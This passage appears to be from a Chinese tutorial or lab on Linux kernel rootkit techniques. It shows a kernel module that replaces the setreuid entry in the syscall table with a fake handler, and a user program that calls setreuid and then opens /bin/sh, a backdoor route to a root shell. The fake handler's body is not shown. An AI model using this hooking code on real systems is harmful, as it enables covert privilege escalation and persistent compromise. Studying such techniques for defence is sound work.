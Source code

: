 ```cpp
    printk("Modify syscall table.\n");
    allow_writing();
    // pte = lookup_address((unsigned long) sys_call_table, &level); // 获取sys_call_table对应的页地址
    // set_pte_atomic(pte, pte_mkwrite(*pte)); // 开启写权限的另一种方式，修改pte所指向页的权限
    real_setreuid = (void *)sys_call_table[__NR_setreuid];
    printk("Old sys_mkdir: %p.\n", (unsigned long *) real_setreuid);
    sys_call_table[__NR_setreuid] = (unsigned long *) fake_setreuid;
    disallow_writing();
    // set_pte_atomic(pte, pte_clear_flags(*pte, _PAGE_RW)); // 关闭写权限的另一种方式

    printk("Module loaded.\n");
    return 0;
}

static void __exit hello_exit(void) {
    printk("Modify syscall table.\n");
    allow_writing();
    // set_pte_atomic(pte, pte_mkwrite(*pte));
    sys_call_table[__NR_setreuid] = (unsigned long *) real_setreuid;
    disallow_writing();
    // set_pte_atomic(pte, pte_clear_flags(*pte, _PAGE_RW));

    printk("Exit module.\n");
}

module_init(hello_init);
module_exit(hello_exit);
```

编写如下程序对 `setreuid` 进行调用：

```cpp
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	if (argc != 3) {
		printf("Usage: %s [RUID] [EUID]\n", argv[0]);
		return -1;
	}
	int buf;
	uid_t ruid, euid;
	buf = atoi(argv[1]);
	if (buf == 0) {
		printf("Argument illegal.\n");
		return -1;
	}
	ruid = (uid_t) buf;
	buf = atoi(argv[2]);
	if (buf == 0) {
		printf("Argument illegal.\n");
		return -1;
	}
	euid = (uid_t) buf;
	int ret = setreuid(ruid, euid);
	if (ret != 0) {
		printf("SYS_setreuid exited for some reason.\n");
		return -1;
	}
	system("/bin/sh");
	return 0;
}
```
